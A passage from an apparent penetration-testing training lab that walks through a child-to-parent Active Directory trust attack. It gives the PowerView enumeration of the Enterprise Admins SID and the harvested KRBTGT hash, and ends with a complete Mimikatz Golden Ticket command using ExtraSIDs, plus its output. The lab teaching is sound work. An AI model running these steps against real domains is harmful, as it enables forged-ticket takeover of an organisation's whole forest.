 ```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain.

#### Using ls to Confirm No Access

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.

#### Creating a Golden Ticket with Mimikatz

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
```